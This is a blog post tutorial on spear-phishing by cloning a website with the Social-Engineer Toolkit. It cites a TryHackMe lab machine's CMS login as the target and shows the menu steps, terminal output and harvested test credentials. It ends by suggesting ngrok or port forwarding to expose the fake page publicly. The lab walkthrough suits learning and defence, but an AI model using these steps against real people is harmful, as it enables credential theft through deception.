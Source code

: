 ```yaml
---
layout: post
title: Spear-Phishing through Website Clonage
date: 2020-03-08 18:00:00
categories: posts
comments: false
en: true
---
```


Phishing, a technique as old as the internet may go, yet it never seems to fade away. Maybe it is the ultimate proof that humans are always vulnerable?

According to wikipedia, "Phishing is the fraudulent attempt to obtain sensitive information or data, such as usernames, passwords and credit card details or other sensitive 
details, by impersonating oneself as a trustworthy entity in a digital communication. Typically carried out by email spoofing, instant messaging, and text messaging, phishing 
often directs users to enter personal information at a fake website which matches the look and feel of the legitimate site."
"Furthermore, phishing is an example of social engineering techniques used to deceive users. Users are lured by communications purporting to be from trusted parties such as 
social networking websites, auction sites, banks, mails/messages from friends or colleagues/executives, online payment systems or IT administrators."

Spear phishing comes in when it is targeted at a certain entity or individual, therefore, these attacks tend to be very well-deveoped and convincing. Today I will like to 
explain how simple it is to clone a custom website for phishing, with the use of [setoolkit](https://github.com/trustedsec/social-engineer-toolkit).

Let's launch ```setoolkit```.

```term

          !\_________________________/!\
          !!                         !! \
          !! Social-Engineer Toolkit !!  \
          !!                         !!  !
          !!          Free           !!  !
          !!                         !!  !
          !!          #hugs          !!  !
          !!                         !!  !
          !!      By: TrustedSec     !!  /
          !!_________________________!! /
          !/_________________________\!/
             __\_________________/__/!_
            !_______________________!/
          ________________________
         /oooo  oooo  oooo  oooo /!
        /ooooooooooooooooooooooo/ /
       /ooooooooooooooooooooooo/ /
      /C=_____________________/_/

[---]        The Social-Engineer Toolkit (SET)         [---]
[---]        Created by: David Kennedy (ReL1K)         [---]
                      Version: 8.0.3
                    Codename: 'Maverick'
[---]        Follow us on Twitter: @TrustedSec         [---]
[---]        Follow me on Twitter: @HackingDave        [---]
[---]       Homepage: https://www.trustedsec.com       [---]
        Welcome to the Social-Engineer Toolkit (SET).
         The one stop shop for all of your SE needs.

   The Social-Engineer Toolkit is a product of TrustedSec.

           Visit: https://www.trustedsec.com

   It's easy to update using the PenTesters Framework! (PTF)
Visit https://github.com/trustedsec/ptf to update all your tools!


 Select from the menu:

   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit

set> 
```

Let us make use of the first option, ```Social-Engineering Attacks```.

From here, we will employ options ```Website Attack Vectors > Credential Harvester Attack Method > Site Cloner```

```term
 Select from the menu:
 
   1) Spear-Phishing Attack Vectors                          
   2) Website Attack Vectors                           
   3) Infectious Media Generator                              
   4) Create a Payload and Listener                   
   5) Mass Mailer Attack                            
   6) Arduino-Based Attack Vector                     
   7) Wireless Access Point Attack Vector                         
   8) QRCode Generator Attack Vector                           
   9) Powershell Attack Vectors                        
  10) Third Party Modules                              
  99) Return back to the main menu.
  
set> 2

   1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   3) Credential Harvester Attack Method
   4) Tabnabbing Attack Method
   5) Web Jacking Attack Method
   6) Multi-Attack Web Method
   7) HTA Attack Method

  99) Return to Main Menu

set:webattack>3

 The first method will allow SET to import a list of pre-defined web
 applications that it can utilize within the attack.

 The second method will completely clone a website of your choosing
 and allow you to utilize the attack vectors within the completely
 same web application you were attempting to clone.

 The third method allows you to import your own website, note that you
 should only have an index.html when using the import website
 functionality.

   1) Web Templates
   2) Site Cloner
   3) Custom Import

```

After this, the application will prompt to enter the server's IP, which is inserted by default, therefore, it is left for the user to press enter. In addition, the URL to clone 
is prompted as well, here we insert our page to clone, which in our case will be a CMS Admin login from the machine ```Ignite``` within [tryhackme](http://tryhackme.com)

```term
set:webattack>2
[-] Credential harvester will allow you to utilize the clone capabilities within SET
[-] to harvest credentials or parameters from a website as well as place them into a report

-------------------------------------------------------------------------------
--- * IMPORTANT * READ THIS BEFORE ENTERING IN THE IP ADDRESS * IMPORTANT * ---

The way that this works is by cloning a site and looking for form fields to
rewrite. If the POST fields are not usual methods for posting forms this
could fail. If it does, you can always save the HTML, rewrite the forms to
be standard forms and use the "IMPORT" feature. Additionally, really
important:

If you are using an EXTERNAL IP ADDRESS, you need to place the EXTERNAL
IP address below, not your NAT address. Additionally, if you don't know
basic networking concepts, and you have a private IP address, you will
need to do port forwarding to your NAT IP address from your external IP
address. A browser doesns't know how to communicate with a private IP
address, so if you don't specify an external IP address if you are using
this from an external perpective, it will not work. This isn't a SET issue
this is how networking works.

set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.100.214]:
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone:http://10.10.17.220/fuel/login/5a6e566c6243396b59584e6f596d3968636d513d

[*] Cloning the website: http://10.10.17.220/fuel/login/5a6e566c6243396b59584e6f596d3968636d513d
[*] This could take a little bit...

The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives below:
```

Let's check our webserver, shall we?

![](/assets/img/Phishing/1.png)

Once data, is input, we receive the following response from ```setoolkit```.

```
The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives below:
192.168.100.214 - - [09/Feb/2021 13:23:55] "GET / HTTP/1.1" 200 -
192.168.100.214 - - [09/Feb/2021 13:23:55] "GET /fuel/modules/fuel/assets/js/jqx/lib/Class.js HTTP/1.1" 404 -
192.168.100.214 - - [09/Feb/2021 13:23:55] "GET /fuel/modules/fuel/assets/js/jqx/lib/BaseController.js HTTP/1.1" 404 -
192.168.100.214 - - [09/Feb/2021 13:23:55] "GET /fuel/modules/fuel/assets/js/fuel/controller/BaseFuelController.js HTTP/1.1" 404 -
192.168.100.214 - - [09/Feb/2021 13:23:55] "GET /fuel/modules/fuel/assets/js/fuel/controller/LoginController.js HTTP/1.1" 404 -
```
```term
[*] WE GOT A HIT! Printing the output:
POSSIBLE USERNAME FIELD FOUND: user_name=admin
POSSIBLE PASSWORD FIELD FOUND: password=imsurethiswebsiteisnotaphishingattempt
```
```
POSSIBLE USERNAME FIELD FOUND: Login=Login
PARAM: forward=5a6e566c6243396b59584e6f596d3968636d513d
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.

192.168.100.214 - - [09/Feb/2021 13:25:24] "POST /index.html HTTP/1.1" 302 -
```

This is beyond bewildering, we managed to manifest a custom phishing attack. This might serve as proof that even administators could fall under such attacks, and is not reserved 
to social media! In addition, we could parse this attack into WAN with the use of tools such as [ngrok](http://ngrok.com), or of course, port forwarding as well.
